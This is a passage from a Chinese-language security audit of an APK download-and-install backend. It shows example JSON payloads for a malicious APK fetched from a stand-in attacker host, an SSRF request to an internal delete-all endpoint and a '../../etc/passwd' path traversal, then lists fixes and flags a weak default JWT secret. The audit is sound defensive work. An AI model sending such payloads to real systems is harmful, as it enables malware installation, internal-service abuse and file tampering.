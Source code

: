 **攻击场景**:

**场景 1: 恶意 APK 安装**
```javascript
// 攻击者提供恶意 APK URL
{
  "downloadUrl": "http://attacker.com/malware.apk",
  "appId": "malicious-app"
}
// 后果: 安装间谍软件、窃取用户数据、挖矿木马
```

**场景 2: SSRF 攻击**
```javascript
// 访问内网服务
{
  "downloadUrl": "http://10.0.0.5:8080/admin/delete-all",
  "appId": "ssrf"
}
// 后果: 探测内网、攻击内部服务
```

**场景 3: 路径遍历**
```javascript
// 覆盖系统文件
{
  "appId": "../../etc/passwd",
  ...
}
```

**修复建议**:
1. ✅ 强制 HTTPS only
2. ✅ 验证 APK SHA-256 checksum
3. ✅ 验证 APK 签名（白名单签名证书）
4. ✅ URL 白名单（仅允许信任的域名）
5. ✅ 沙箱验证（先在隔离环境测试）
6. ✅ 文件名严格验证（禁止 `../` 等）

**修复优先级**: 🔥 **立即修复（24-48小时内）**

---

## 🟠 高危漏洞 (HIGH) - 1周内修复

### 4. JWT Secret 配置弱

**文件**: `backend/shared/src/guards/jwt-auth.guard.ts`
**问题**: JWT_SECRET 有弱默认值 `'your-secret-key-change-this'`
**风险**: 如果未配置环境变量，默认密钥可被破解

**修复**:
- 移除默认值，启动时检查环境变量
- 使用至少 256 位的强随机密钥
- 定期轮换密钥

---